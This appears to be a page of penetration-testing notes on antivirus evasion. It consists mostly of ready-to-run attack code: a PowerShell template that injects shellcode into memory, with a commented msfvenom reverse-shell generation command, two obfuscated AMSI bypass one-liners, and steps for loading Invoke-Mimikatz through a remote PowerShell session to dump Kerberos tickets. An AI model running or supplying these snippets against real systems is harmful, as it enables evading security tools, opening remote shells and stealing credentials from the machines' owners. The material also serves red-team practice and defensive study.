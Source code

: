 ```yaml
---
title: AV Evasion
category: Post Exploitation
order: 1
---
```


A basic template script that performs in-memory injection:

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
# msfvenom -p windows/shell_reverse_tcp LHOST=<ip_addr> LPORT=<port> -f powershell
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Another way to bypass AV is using Shellter

![](/hackingnotes/images/shellter.png)


# String Replacement

FUTURE CONTENT

https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/
https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/


# AMSI bypass

AMSI bypass method to execute powershell scripts such as `Invoke-Mimikatz.ps1` with `PowerShell Remote`.

First we need to create a session on the target machine.

```powershell
$sess = New-PSSession -ComputerName srv01.corp.local
Enter-PSSession -Session $sess
```
Execute the following payload and exit the session.

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
Other payload:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

Import the script remotely with `PowerShell Remote`:

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
```
Enter in the session again and execute the malicious script.

```powershell
Enter-PSSession -Session $sess
Invoke-Mimikatz -Command '"sekurlsa::tickets'
```

> **Note**: More bypasses are available on the following resource:
>
> https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560



https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/